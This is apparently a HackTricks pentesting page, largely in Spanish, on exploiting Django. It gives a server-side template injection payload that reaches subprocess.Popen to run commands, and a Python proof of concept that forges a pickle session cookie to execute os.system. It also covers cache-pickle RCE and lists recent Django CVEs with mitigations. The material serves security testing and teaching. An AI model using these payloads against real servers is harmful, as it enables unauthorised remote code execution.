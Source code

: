 # Django

{{#include ../../banners/hacktricks-training.md}}

## Cache Manipulation to RCE
El método de almacenamiento de cache por defecto de Django es [Python pickles], lo que puede conducir a RCE si [untrusted input is unpickled]. **Si un atacante puede obtener acceso de escritura al cache, puede escalar esta vulnerabilidad a RCE en el servidor subyacente**.

El cache de Django se almacena en uno de cuatro sitios: [Redis], [memory], [files], o una [database]. El cache almacenado en un servidor Redis o en una base de datos son los vectores de ataque más probables (Redis injection y SQL injection), pero un atacante también podría usar el cache basado en archivos para convertir una escritura arbitraria en RCE. Los mantenedores lo han marcado como no problemático. Es importante tener en cuenta que la carpeta de archivos del cache, el nombre de la tabla SQL y los detalles del servidor Redis variarán según la implementación.

Este informe de HackerOne proporciona un gran ejemplo reproducible de explotación del cache de Django almacenado en una base de datos SQLite: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
La Django Template Language (DTL) es **Turing-complete**. Si datos proporcionados por el usuario se renderizan como una *template string* (por ejemplo llamando a `Template(user_input).render()` o cuando `|safe`/`format_html()` elimina el auto-escaping), un atacante puede lograr SSTI completo → RCE.

### Detección
1. Busca llamadas dinámicas a `Template()` / `Engine.from_string()` / `render_to_string()` que incluyan *cualquier* dato de la solicitud sin sanear.
2. Envía una payload basada en tiempo o aritmética:
```django
{{7*7}}
```
Si la salida renderizada contiene `49`, la entrada está siendo compilada por el motor de plantillas.

### Primitive to RCE
Django blocks direct access to `__import__`, but the Python object graph is reachable:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Encuentra el índice de `subprocess.Popen` (≈400–500 según la build de Python) y ejecuta comandos arbitrarios:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Un gadget universal más seguro es iterar hasta que `cls.__name__ == 'Popen'`.

El mismo gadget funciona para las funcionalidades de renderizado de plantillas de **Debug Toolbar** o **Django-CMS** que manejan incorrectamente la entrada del usuario.

---

### Véase también: ReportLab/xhtml2pdf PDF export RCE
Las aplicaciones basadas en Django comúnmente integran xhtml2pdf/ReportLab para exportar vistas como PDF. Cuando HTML controlado por el usuario fluye hacia la generación de PDF, rl_safe_eval puede evaluar expresiones dentro de triple corchetes `[[[ ... ]]]`, lo que permite ejecución de código (CVE-2023-33733). Detalles, payloads, y mitigaciones:

{{#ref}}
../../generic-methodologies-and-resources/python/bypass-python-sandboxes/reportlab-xhtml2pdf-triple-brackets-expression-evaluation-rce-cve-2023-33733.md
{{#endref}}

---

## Pickle-Backed Session Cookie RCE
If the setting `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` is enabled (or a custom serializer that deserialises pickle), Django *decrypts and unpickles* the session cookie **before** calling any view code. Therefore, possessing a valid signing key (the project `SECRET_KEY` by default) is enough for immediate remote code execution.

### Exploit Requirements
* El servidor usa `PickleSerializer`.
* El atacante conoce / puede adivinar `settings.SECRET_KEY` (leaks via GitHub, `.env`, páginas de error, etc.).

### Proof-of-Concept
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Envía la cookie resultante, y el payload se ejecuta con los permisos del worker WSGI.

**Mitigations**: Mantén el `JSONSerializer` por defecto, rota `SECRET_KEY`, y configura `SESSION_COOKIE_HTTPONLY`.

---

## Recientes (2023-2025) CVEs de alto impacto de Django que los Pentesters deben revisar
* **CVE-2025-48432** – *Log Injection via unescaped `request.path`* (fixeado el 4 de junio de 2025). Permite a atacantes introducir saltos de línea/códigos ANSI en archivos de log y envenenar el análisis de logs aguas abajo. Nivel de parche ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Critical SQL injection* en `QuerySet.values()/values_list()` sobre `JSONField` (CVSS 9.8). Forja claves JSON para romper las comillas y ejecutar SQL arbitrario. Fijado en 4.2.15 / 5.0.8.

Siempre identifica la versión exacta del framework mediante la página de error `X-Frame-Options` o el hash de `/static/admin/css/base.css` y prueba lo anterior cuando proceda.

---

## Referencias
* Aviso de seguridad de Django – "Django 5.2.2, 5.1.10, 4.2.22 address CVE-2025-48432" – 4 Jun 2025.
* OP-Innovate: "Django releases security updates to address SQL injection flaw CVE-2024-42005" – 11 Aug 2024.
* 0xdf: University (HTB) – Exploiting xhtml2pdf/ReportLab CVE-2023-33733 to gain RCE and pivot into AD – [https://0xdf.gitlab.io/2025/08/09/htb-university.html](https://0xdf.gitlab.io/2025/08/09/htb-university.html)

{{#include ../../banners/hacktricks-training.md}}
